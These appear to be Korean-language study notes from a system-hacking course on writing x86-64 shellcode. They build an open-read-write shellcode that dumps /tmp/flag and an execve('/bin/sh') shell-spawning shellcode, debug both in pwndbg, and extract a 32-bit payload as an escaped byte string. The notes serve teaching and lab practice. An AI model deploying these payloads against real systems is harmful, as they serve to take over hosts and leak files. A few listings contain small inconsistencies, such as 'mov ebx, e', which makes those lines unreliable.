

# Shell Code

---

## Shell Code

- 셸 코드는 익스플로잇을 위해 제작된 어셈블리 코드조각
    - 만약 해커가 rip를 자신이 작성한 셸코드로 옮길 수 있으면, 해커는 원하는 어셈블리코드가 실행되게 할 수 있음
    - 셸코드는 어셈블리어로 구성되므로 공격을 수행할 대상 아키텍처와 운영체제에 따라, 그리고 셸코드의 목적에 따라 다르게 작성됨

## orw 셸코드

- `orw 셸코드`는 파일을 열고, 읽은 뒤 화면에 출력해주는 셸코드입니다.
- `/tmp/flag` 를 읽는 셸코드

```c
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
```

## 의사코드 각 줄을 어셈블리로 구현

### 1. int fd = open(”/tmp/flag”, O_RDONLY, NULL);



- `/tmp/flag` 라는 문자열을 메모리에 위치시키는 것
    - 이를 위해 스택에 `0x67616c662f706d742f (/tmp/flag 의 리틀 엔디안 형태)`를 *push*하여 위치시키도록 만들 것입니다.
    - 하지만 스택에는 8byte 단위로만 값을 *PUSH*할 수 있기 때문에 `0x67` 를 우선 PUSH한 후 `0x616c662f706d742f` 를 PUSH합니다.
- `O_RDONLY` 는 0이므로, `rsi` 는 0으로 설정합니다.

```c
// https://code.woboq.org/userspace/glibc/bits/fcntl.h.html#24
/* File access modes for `open' and `fcntl'.  */
#define        O_RDONLY        0        /* Open read-only.  */
#define        O_WRONLY        1        /* Open write-only.  */
#define        O_RDWR          2        /* Open read/write.  */
```

- 파일을 읽을 때, `mode` 는 의미를 갖지 않음으로 `rdx` 는 0으로 설정합니다.
- 마지막으로 `rax` 를 open의 `syscall` 인 2로 설정합니다.
- **구현**

```nasm
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
```

### 2. read(fd, buf, 0x30)


- `syscall` 의 반환값은 `rax` 에 저장됨
- 따라서 `open` 으로 획득한 `/tmp/flag` 의 *fd*는 `rax` 에 저장됨
    - fd
      
        **파일 서술자(File Descriptor, fd)**는 유닉스 계열의 운영체제에서 파일에 접근하는 소프트웨어에 제공하는 가상의 접근 제어자입니다. 프로세스마다 고유의 서술자 테이블을 갖고 있으며, 그 안에 여러 파일 서술자를 저장합니다. 서술자 각각은 번호로 구별되는데, 일반적으로 0번은 일반 입력(Standard Input, STDIN), 1번은 일반 출력(Standard Output, STDOUT), 2번은 일반 오류(Standard Error, STDERR)에 할당되어 있으며, 이들은 프로세스를 터미널과 연결해줍니다. 그래서 우리는 키보드 입력을 통해 프로세스에 입력을 전달하고, 출력을 터미널로 받아볼 수 있습니다.
        
        프로세스가 생성된 이후, 위의 open같은 함수를 통해 어떤 파일과 프로세스를 연결하려고 하면, 기본으로 할당된 2번 이후의 번호를 새로운 fd에 차례로 할당해줍니다. 그러면 프로세스는 그 fd를 이용하여 파일에 접근할 수 있습니다.
    
- `read` 의 첫 번째 인자를 이 값으로 설정해야 하므로 `rax` 를 `rdi` 에 대입함
- `rsi` 는 파일에서 읽은 데이터를 저장할 주소를 가리킴. `0x30` 만큼 읽을 것이므로, `rsi` 에 `rsp-0x30` 을 대입함
- `rdx` 는 파일로 부터 읽어낼 데이터의 길이인 `0x30` 으로 설정함
- `read` 시스템 콜을 호출하기 위해 `rax` 를 0으로 설정함
- **구현**

```nasm
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
```

### 3. write(1, buf, 0x30)


- 출력은 `stdout` 으로 할 것이므로, `rdi` 를 `0x1` 로 설정
- `rsi` 와 `rdx` 는 `read` 에서 사용한 값을 그대로 사용
- `write` 시스템콜을 호출 할 것이므로 `rax`를 1로 설정
- **구현**

```nasm
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

### 종합 결과

```nasm
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

## orw 셸코드 컴파일 및 실행

---

- 대부분의 운영체제는 실행가능한 파일의 형식을 지정하고 있음 (윈도우 : `PE` , 리눅스 : `ELF` )
- 크게 헤더와 코드 그리고 기타 데이터로 구성되어 있는데, 헤더에는 실행에 필요한 여러 정보가 적혀있고, 코드에는 CPU가 이해할 수 있는 기계어 코드가 적혀있음
- 위에서 작성한 셸 코드는 어셈블리 코드이므로, 기계어로 치환하면 CPU는 이해할 수 있으나 `ELF` 형식이 아니므로 리눅스에서 실행될 수 없음
    - `gcc` 컴파일을 통해서 `ELF` 형식으로 변환시켜줘야함

### 컴파일

- 어셈블리 코드를 컴파일하는 방법에는 여러가지가 있으나, 여기선 셸코드를 실행할 수 있는 `스켈레톤 코드(기본 구조만 갖춘 코드)` 를 C언어로 작성하고, 거기에 셀코드를 탑재하는 방법을 사용
- 스켈레톤 코드 예제

```nasm
// File name: sh-skeleton.c
// Compile Option: gcc -o sh-skeleton sh-skeleton.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "Input your shellcode here.\n"
    "Each line of your shellcode should be\n"
    "seperated by '\n'\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

- **orw.S**

```nasm
;Name: orw.S

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

- **orw.c**

```nasm
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```

### 실행

- 셀코드가 작동함을 확인하기 위해 `/tmp/flag` 파일 생성

```nasm
echo 'flag{this_is_open_read_write_shellcode!}' > /tmp/flag
```

- `orw.c` 를 컴파일하고, 실행
    - 성공적으로 실행이 도면 문자열이 출력되는 것을 확인할 수 있음
    - 만약 공격의 대상이 되는 시스템에서 이 셸코드를 실행할 수 있다면, 상대 서버의 자료를 유출해낼 수 있음
    - 그리고 `/tmp/flag` 의 내용 말고도 몇 자의 알 수 없는 문자열들이 출력되는 경우가 있음 → 초기화되지 않은 메모리 영역 사용

```nasm
$ gcc -o orw orw.c -masm=intel
$ ./orw
flag{this_is_open_read_write_shellcode!}
```

## orw 셸코드 디버깅

---

- `run_sh()` 에 브레이크 포인트 설정

```nasm
$ gdb orw -q
...
pwndbg> b *run_sh
Breakpoint 1 at 0x1129
pwndbg>
```

- `run` 명령어로 `run_sh()` 의 시작부분까지 코드를 실행, 작성한 셀코드에 `rip` 가 위치한 것을 확인할 수 있음
  
    ```nasm
    pwndbg> r
    Starting program: /home/dreamhack/orw
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    
    Breakpoint 1, 0x0000555555555129 in run_sh ()
    ...
    *RIP  0x555555555129 (run_sh) ◂— push 0x67
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
     ► 0x555555555129 <run_sh>       push   0x67
       0x55555555512b <run_sh+2>     movabs rax, 0x616c662f706d742f
       0x555555555135 <run_sh+12>    push   rax
       0x555555555136 <run_sh+13>    mov    rdi, rsp
       0x555555555139 <run_sh+16>    xor    rsi, rsi
       0x55555555513c <run_sh+19>    xor    rdx, rdx
       0x55555555513f <run_sh+22>    mov    rax, 2
       0x555555555146 <run_sh+29>    syscall
       0x555555555148 <run_sh+31>    mov    rdi, rax
       0x55555555514b <run_sh+34>    mov    rsi, rsp
       0x55555555514e <run_sh+37>    sub    rsi, 0x30
    ...
    pwndbg>
    ```
    

### 1. int fd = open(”/tmp/flag”, O_RDONLY, NULL)

- 첫 번째 `syscall` 이 위치한 `run_sh+29` 브레이크 포인트를 설정한 후 실행하여, 해당 시점에 `syscall` 에 들어가는 인자를 확인
  
    ```nasm
    pwndbg> b *run_sh+29
    Breakpoint 2 at 0x555555555146
    pwndbg> c
    Continuing.
    
    Breakpoint 2, 0x0000555555555146 in run_sh ()
    ...
    
    ─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
    *RAX  0x2
     RBX  0x0
     RCX  0x555555557df8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x5555555550e0 (__do_global_dtors_aux) ◂— endbr64
    *RDX  0x0
    *RDI  0x7fffffffe2f8 ◂— '/tmp/flag'
    *RSI  0x0
    ...
    
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
       0x555555555135 <run_sh+12>    push   rax
       0x555555555136 <run_sh+13>    mov    rdi, rsp
       0x555555555139 <run_sh+16>    xor    rsi, rsi
       0x55555555513c <run_sh+19>    xor    rdx, rdx
       0x55555555513f <run_sh+22>    mov    rax, 2
     ► 0x555555555146 <run_sh+29>    syscall  <SYS_open>
            file: 0x7fffffffe2f8 ◂— '/tmp/flag'
            oflag: 0x0
            vararg: 0x0
       0x555555555148 <run_sh+31>    mov    rdi, rax
       0x55555555514b <run_sh+34>    mov    rsi, rsp
       0x55555555514e <run_sh+37>    sub    rsi, 0x30
       0x555555555152 <run_sh+41>    mov    rdx, 0x30
       0x555555555159 <run_sh+48>    mov    rax, 0
    ...
    ```
    
    - `pwndbg` 플러그인은 `syscall` 을 호출할 때, 위 결과의 인자를 해석해서 보여줌
    - `open(“/tmp/flag”, O_RDONLY, NULL);`가 실행됨을 확인할 수 있음
    - `ni` 명령어로 `syscall`을 실행하고 나면, *open* 시스템 콜을 수행한 결과로 */tmp/flag*의 *fd(3)*가 *rax*에 저장됩니다.
    
    ```nasm
    pwndbg> ni
    0x0000555555555148 in run_sh ()
    ...
    
    ─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
    *RAX  0x3
     RBX  0x0
    *RCX  0x555555555044 (_start+4) ◂— xor ebp, ebp
     RDX  0x0
     RDI  0x7fffffffe2f8 ◂— '/tmp/flag'
     RSI  0x0
    ...
    
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
       0x555555555136 <run_sh+13>    mov    rdi, rsp
       0x555555555139 <run_sh+16>    xor    rsi, rsi
       0x55555555513c <run_sh+19>    xor    rdx, rdx
       0x55555555513f <run_sh+22>    mov    rax, 2
       0x555555555146 <run_sh+29>    syscall
     ► 0x555555555148 <run_sh+31>    mov    rdi, rax
       0x55555555514b <run_sh+34>    mov    rsi, rsp
       0x55555555514e <run_sh+37>    sub    rsi, 0x30
       0x555555555152 <run_sh+41>    mov    rdx, 0x30
       0x555555555159 <run_sh+48>    mov    rax, 0
       0x555555555160 <run_sh+55>    syscall
    ...
    ```
    

### 2. read(fd, buf, 0x30)

- 두 번째 syscall이 위치한 `run_sh+55` 에 브레이크 포인트를 설정하고 실행
  
    ```nasm
    pwndbg> b *run_sh+55
    Breakpoint 3 at 0x555555555160
    pwndbg> c
    Continuing.
    
    Breakpoint 3, 0x0000555555555160 in run_sh ()
    ...
    
    ─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────
    *RAX  0x0
     RBX  0x0
     RCX  0x555555555044 (_start+4) ◂— xor ebp, ebp
    *RDX  0x30
    *RDI  0x3
    *RSI  0x7fffffffe2c8 ◂— 0x0
    ...
    
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────
       0x555555555148     mov    rdi, rax
       0x55555555514b     mov    rsi, rsp
       0x55555555514e     sub    rsi, 0x30
       0x555555555152     mov    rdx, 0x30
       0x555555555159     mov    rax, 0
     ► 0x555555555160     syscall  
            fd: 0x3 (/tmp/flag)
            buf: 0x7fffffffe2c8 ◂— 0x0
            nbytes: 0x30
       0x555555555162     mov    rdi, 1
       0x555555555169     mov    rax, 1
       0x555555555170     syscall
       0x555555555172     xor    rdi, rdi
       0x555555555175     mov    rax, 0x3c
    ...
    ```
    
    - 새로 할당한 `/tmp/flag`의 fd(3)에서 데이터를 0x30바이트만큼 읽어서 `0x7fffffffe2c8` 에 저장
    - `ni` 명령어로 `syscall` 을 실행
    
    ```nasm
    pwndbg> ni
    0x0000555555555162 in run_sh ()
    ...
    
    ─────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────
    *RAX  0x29
     RBX  0x0
     RCX  0x555555555044 (_start+4) ◂— xor ebp, ebp
     RDX  0x30
     RDI  0x3
     RSI  0x7fffffffe2c8 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
    ...
    
    ──────────────────────[ DISASM / x86-64 / set emulate on ]───────────────────
       0x55555555514b <run_sh+34>    mov    rsi, rsp
       0x55555555514e <run_sh+37>    sub    rsi, 0x30
       0x555555555152 <run_sh+41>    mov    rdx, 0x30
       0x555555555159 <run_sh+48>    mov    rax, 0
       0x555555555160 <run_sh+55>    syscall
     ► 0x555555555162 <run_sh+57>    mov    rdi, 1
       0x555555555169 <run_sh+64>    mov    rax, 1
       0x555555555170 <run_sh+71>    syscall
       0x555555555172 <run_sh+73>    xor    rdi, rdi
       0x555555555175 <run_sh+76>    mov    rax, 0x3c
       0x55555555517c <run_sh+83>    syscall
    ...
    ```
    
- 위 `REGISTERS` 부분의 `RSI` 를 통해서 파일의 내용이 `0x7fffffffe2c8` 에 저장되었음을 이미 알 수 있지만, `x/s` 명령어로 확인해보면
  
    ```nasm
    pwndbg> x/s 0x7fffffffe2c8
    0x7fffffffe2c8: "flag{this_is_open_read_write_shellcode!}\n"
    ```
    
    - 문자열이 성공적으로 저장된 것을 확인할 수 있음

### 3. write(1, buf, 0x30)

- `write` 시스템 콜을 실행하기 직전의 모습
  
    ```nasm
    pwndbg> c
    Continuing.
    
    Breakpoint 4, 0x0000555555555170 in run_sh ()
    ...
    
    ─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
    *RAX  0x1
     RBX  0x0
     RCX  0x555555555044 (_start+4) ◂— xor ebp, ebp
     RDX  0x30
    *RDI  0x1
     RSI  0x7fffffffe2c8 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
    ...
    
    ──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
       0x555555555152 <run_sh+41>    mov    rdx, 0x30
       0x555555555159 <run_sh+48>    mov    rax, 0
       0x555555555160 <run_sh+55>    syscall
       0x555555555162 <run_sh+57>    mov    rdi, 1
       0x555555555169 <run_sh+64>    mov    rax, 1
     ► 0x555555555170 <run_sh+71>    syscall  <SYS_write>
            fd: 0x1 (/dev/pts/11)
            buf: 0x7fffffffe2c8 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
            n: 0x30
       0x555555555172 <run_sh+73>    xor    rdi, rdi
       0x555555555175 <run_sh+76>    mov    rax, 0x3c
       0x55555555517c <run_sh+83>    syscall
       0x55555555517e <main>         endbr64
       0x555555555182 <main+4>       push   rbp
    ...
    ```
    
    - `ni` 명령어로 실행하면, 데이터를 저장한 `0x7fffffffe2c8` 에서 48바이트를 출력
    
    ```nasm
    flag{this_is_open_read_write_shellcode!}
    ```
    

## execve 셸코드

---


- **셸(Shell, 껍질)**이란 운영체제에 명령을 내리기 위해 사용되는 사용자의 인터페이스로, 운영체제의 핵심 기능을 하는 프로그램을 **커널(Kernel)**이라고 하는 것과 대비
- 셸을 획득하면 시스템을 제정할 수 있게 되므로 통상적으로 셸 획득을 시스템 해킹의 성공으로 여김
- **execve 셸코드**는 임의의 프로그램을 실행하는 셸코드인데, 이를 이용하면 서버의 셸을 획득 할 수 있음

### execve(”/bin/sh”, null, null)

- execve 셸코드는 execve 시스템 콜만으로 구성됨


- 여기서 `argv` 는 실행파일에 넘겨줄 인자, `envp` 는 환경변수
    - sh만 실행하면 되기 때문에 다른 값들은 전부 `null`로 설정해줘도 됨
- 따라서 우리는 `execve("bin/sh", null, null)` 을 실행하는 것을 목표로 셸 코드를 작성하면 됨

```nasm
;Name: execve.S

mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

### execve 셸코드 컴파일 및 실행

- 동일하게 스켈레톤 코드를 이용하여 execve 셸코드를 컴파일

```nasm
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

- 해당 코드를 디버깅하는 것은 위 `orw` 셸코드와 동일

### objdump를 이용한 shellcode 추출

- 작성한 shellcode를 byte code(opcode)의 형태로 추출하는 방법
- 주어진 shellcode.asm에 대해서 이를 바이트 코드로 바꾸는 과정
- 어셈블리 코드 -shellcode.asm
  
    ```nasm
    ; File name: shellcode.asm
    section .text
    global _start
    _start:
    xor    eax, eax
    push   eax
    push   0x68732f
    push   0x6e69622f
    mov    ebx, e
    xor    ecx, ecx
    xor    edx, edx
    mov    al, 0xb
    int    0x80
    ```
    
1. shellocode.o
   
    ```nasm
    $ sudo apt-get install nasm 
    $ nasm -f elf shellcode.asm
    $ objdump -d shellcode.o
    shellcode.o:     file format elf32-i386
    Disassembly of section .text:
    00000000 <_start>:
       0:	31 c0                	xor    %eax,%eax
       2:	50                   	push   %eax
       3:	68 2f 2f 73 68       	push   $0x68732f2f
       8:	68 2f 62 69 6e       	push   $0x6e69622f
       d:	89 e3                	mov    %esp,%ebx
       f:	31 c9                	xor    %ecx,%ecx
      11:	31 d2                	xor    %edx,%edx
      13:	b0 0b                	mov    $0xb,%al
      15:	cd 80                	int    $0x80
    $ 
    ```
    
2. shellcode.bin
   
    ```nasm
    $ objcopy --dump-section .text=shellcode.bin shellcode.o
    $ xxd shellcode.bin
    00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
    00000010: c931 d2b0 0bcd 80                        .1.....
    $
    ```
    
3. shellcode string
   
    ```nasm
    # execve /bin/sh shellcode: 
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
    ```
    
    ```c
    xxd -p shell_basic.bin | tr -d '\n' | sed 's/../\\x&/g'
    ```